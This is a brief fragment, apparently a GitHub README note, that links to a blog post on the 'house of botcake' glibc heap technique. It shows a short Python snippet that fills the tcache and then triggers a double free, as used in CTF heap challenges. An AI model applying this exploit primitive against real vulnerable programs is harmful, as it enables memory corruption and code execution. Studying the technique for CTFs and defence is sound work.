 **Blog: https://4xura.com/pwn/house-of-botcake/**

```py
for i in range(9):
	add(0x100)	# 0 1 2 3 4 5 6 7 8
for i in range(7):
    free(i)		# 0 1 2 3 4 5 6
free(8)	# victim
free(7)
add(0x100)
free(8)	# double free
```

